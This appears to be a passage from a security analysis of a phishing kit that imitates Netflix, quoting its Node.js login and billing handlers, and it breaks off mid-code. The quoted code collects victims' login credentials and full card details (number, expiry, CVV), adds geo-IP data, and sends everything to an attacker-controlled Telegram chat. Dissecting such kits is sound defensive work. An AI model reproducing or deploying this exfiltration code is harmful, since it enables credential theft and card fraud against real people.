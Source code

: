 ```js
		`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
		`👤 LOGIN INFO\n` +
		`EMAIL/PHONE      : ${userId}\n` +
		`PASSWORD         : ${password}\n\n` +
		`🌍 GEO-IP INFO\n` +
		`IP ADDRESS       : ${ipAddress}\n` +
		`COORDINATES      : ${Coordinates}\n` +
		`CITY             : ${City}\n` +
		`STATE            : ${Region}\n` +
		`ZIP CODE         : ${postalCode}\n` +
		`COUNTRY          : ${Country}\n` +
		`TIME             : ${Time}\n` +
		`ISP              : ${provider} ${ASN}\n\n` +
		`💻 SYSTEM INFO\n` +
		`USER AGENT       : ${userAgent}\n` +
		`SYSTEM LANGUAGE  : ${systemLang}\n\n` +
		`💬 Telegram: https://t.me/UpdateTeams\n` +
		`🌐 Website: Coming soon!!\n`;

	const sendMessage = sendMessageFor(botToken, chatId);
	sendMessage(message);

	res.redirect('/auth/login/2');
};
```

The user data is formatted nicely and decorated with pretty icons before it is sent as a message to a Telegram chat set up by the attacker. 

This route then redirects to `/auth/login/2` and the user is taken to the billing page where their credit card info will be captured:

```js
[...]

exports.loginPost2 = async (req, res) => {
	const { cardNum, expDate, cvv } = req.body;
	const clientIP = getClientIp(req);

	function getIPDetails() {
		return ipInfo
			.getIPInfo(clientIP)
			.then((data) => {
				var data = data;
				return data;
			})
			.catch((err) => {
				console.log(err);
			});
	}

	const iPDetails = await getIPDetails();
	const { ipAddress, Time } = iPDetails;

	const message =
		`👾 SHAKESWORDE | NETFL1X | USER_${ipAddress}\n\n` +
		`👤 BILLING INFO\n` +
		`CARD NUMBER      : ${cardNum}\n` +
		`EXPIRY DATE      : ${expDate}\n` +
		`CVV              : ${cvv}\n\n` +
		`🌍 GEO-IP INFO\n` +
		`IP ADDRESS       : ${ipAddress}\n` +
		`TIME             : ${Time}\n\n` +
		`💬 Telegram: https://t.me/UpdateTeams\n` +
```